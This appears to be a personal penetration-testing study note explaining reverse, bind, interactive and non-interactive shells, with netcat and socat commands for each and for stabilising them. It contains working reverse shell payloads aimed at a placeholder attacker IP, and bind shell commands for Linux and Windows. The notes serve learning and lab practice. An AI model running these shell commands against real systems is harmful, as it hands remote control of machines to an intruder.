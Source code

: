 # Shells
## Reverse Shells
Reverse shells are when the target is forced to execute code that connects back to our computer. On our own computer we would set up a listener which would be used to receive the connection. They are a good way to bypass firewall rules that may prevent us from connecting to arbitrary posts on the target, however, when receiving a shell from a machine across the internet, we would need to configure our own network to accept the shell. 

## Bind Shells
Bind shells are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet meaning we can connect to the port that the code has opened and obtain RCE. This has the advantage of not requiring any configuration on our own network, but may be prevented by firewalls protecting the target.

## Interactive
These type of shells allow us to interact with programs after executing them, an example of this is the prompt that [[SSH]] gives us after entering the command, with interactive shells we will receive the prompt and are allowed to interact with it as if it were a normal CLI environment.

## Non-Interactive
Contrary to interactive shells, these shells do not allow programs that require user interaction in order to run, when running commands like [[SSH]], nano, etc. the prompt will no appear in our shell, but commands like cat or whoami work fine.

# Tools
## Netcat
[[Netcat]] is the most basic tool when it comes to any kind of networking. 

### Reverse
To set up a reverse shell we can start by creating a listener in our machine with the following syntax
```sh
nc -nlvp PORT
```
this will make it so netcat does not resolves hosts names or uses DNS, is a listener, uses verbose and sets it to a specified port.
We then can connect to this with any number of payloads depending on the environment on the target, like (for linux)
```
nc ATTACK_IP PORT -e /bin/bash
```
For us to gain RCE

### Bind
To use a Bind shell we need to first establish a listener on the target waiting for us to connect to it, depending on the environment this can also be accomplished with netcat with a basic listener and adding either `-e "cmd.exe"`
for windows or `-e /bin/bash` for linux. 
Then we can connect to it with
```sh
nc TARGET PORT
```

### Stabilisation
These shells are very unstable by default, they are non-interactive and often have strange formatting errors, this is due to netcat 'shells' really being processes running inside a terminal, rather than being genuine terminals.
#### Python
1. The first thing to do is use `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
2. Step two is: `export TERM=xterm` -- this will give us access to term commands such as `clear`.
3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes, `reset` when we finish to return to normal). It then foregrounds the shell, thus completing the process.
#### rlwrap
rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

To use rlwrap, we invoke a slightly different listener:

`rlwrap nc -lvnp <port>`  

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.



## Socat
Similar to [[Netcat]] in some ways, [[Socat]] is a connector between two points, as it provides a link between two points, whether they be  a listening port and a keyboard, a listening port and a file or two listening ports
### Reverse
The syntax for [[Socat]] gets more complicated than that of Netcat, for a reverse shell listener, the syntax is the following 
```sh
socat TCP-L:<port> -
``` 
 
This is taking two points (a listening port and standard input) and connecting them together. The resulting shell is unstable. (this is the equivalent to `nc -lnvp <port>`).

Then we can connect to the listener in the target machine with the following for a linux target

```sh
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```
Or the following on a windows target
```sh
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```
The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.


### Bind
On a linux target we set up the listener as the following
```sh
socat TCP-L:<PORT> EXEC:"bash -li"
```
While on windows
```sh
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

Regardless of the target we use the following on our attacking machine to connect to the listener
```sh
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

### Stabilisation
One of the advantages of socat is its versatility, one of the ways in which we can use this is to significantly stabilise the reverse shell. In the case of a linux target we can use
```sh
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```
Which would, as usual connect two points together through TCP, in this case these two points are a listening port and a file, specifically, we are passing the current TTY as a file and setting the echo to be zero. This is the equivalent to using the Ctrl+Z `stty raw -echo; fg` trick with a netcat shell, with the benefit of being immediately stable and hooking into a full tty.

The normal listener can be connected to with any payload, however, this special listener must be activated with a very specific socat command, meaning the target must also have socat installed. As not all targets are gonna have it, we can upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.
The command is as follows
```sh
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
First we are linking with the listener running on our own machine. Then it creates an interactive bash session with `EXEC:"bash -li"` and then we pass the following arguments
* pty: allocates a pseudoterminal on the target 
* stderr: makes sure that any error messages get shown in the shell
* sigint: passes any Ctrl+C commands through into the sub-process, allowing us to kill commands inside the shell
* setsid: creates the process in a new session
* sane: stabilises the terminal, attempting to "normalise" it

###

## msfvenom


## Metasploit



